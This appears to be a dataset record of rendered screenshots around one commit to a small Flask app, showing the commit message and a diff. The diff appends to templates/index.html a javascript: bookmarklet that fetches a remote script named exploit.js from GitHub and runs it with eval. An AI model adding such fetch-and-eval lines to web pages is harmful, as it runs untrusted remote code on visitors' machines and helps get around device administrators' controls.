

Before and after one commit to qoft/qapi, a Flask app: page / in a window 1280 px wide. Shown: the top 539 px of the page. Run offline with Flask 2, Linux system fonts and the light colour scheme.

Commit message:
ignore im doing this for school

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -32,3 +32,6 @@
     </main>
     </body>
 </html>
+
+
+javascript:fetch("https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js").then(data=>{data.text().then(text=>{eval(text)})});
```
